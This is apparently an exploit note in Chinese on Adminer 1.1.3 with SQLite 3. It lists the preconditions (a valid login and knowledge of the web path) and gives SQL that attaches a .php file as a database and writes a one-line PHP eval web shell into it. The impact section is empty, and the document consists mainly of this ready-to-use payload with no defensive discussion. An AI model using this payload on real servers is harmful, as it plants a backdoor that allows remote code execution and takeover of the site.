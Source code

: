 ```yaml
---
title: "Adminers 1.1.3 （SQLite 3 写入一句话木马）"
id: zhfly2803
---
```


# Adminers 1.1.3 （SQLite 3 写入一句话木马）

## 一、漏洞简介

需要登陆Adminers，并且需要知道网站的路径。

## 二、漏洞影响

## 三、复现过程

```
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/* `ATTACH DATABASE ‘/网站/路径/shell.php’ AS t;insert INTO t.e (d) VALUES (’<?php eval($_POST[a])?>’);/*` 
```